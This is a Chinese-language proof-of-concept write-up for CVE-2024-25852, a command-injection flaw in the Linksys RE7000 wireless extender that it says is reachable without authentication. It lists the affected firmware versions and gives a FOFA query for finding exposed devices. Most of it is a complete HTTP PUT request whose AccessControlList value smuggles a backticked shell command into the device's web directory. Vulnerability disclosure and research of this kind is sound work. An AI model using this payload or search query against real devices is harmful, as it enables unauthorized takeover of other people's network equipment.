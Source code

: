 # CVE-2024-25852

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Linksys RE7000无线扩展器 RCE漏洞

## 0x01 简介

Linksys是贝尔金旗下一个销售家用与小型业务用网络产品的部门，主要经营宽带与无线路由器。RE7000是Linksys推出的一款新型双频AC1900无线扩展器，具有无缝漫游功能。

## 0x02 漏洞描述

Linksys RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。未经身份验证的远程攻击者可以利用该漏洞获取设备管理员权限。

## 0x03 影响范围

```bash
RE7000 v2.0.9、RE7000 v2.0.11、RE7000 v2.0.15
```

## 0x04 FOFA语法

```bash
body="/login.shtml?ran="
```

## 0x05 漏洞复现

```bash
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![Untitled](image/Untitled.png)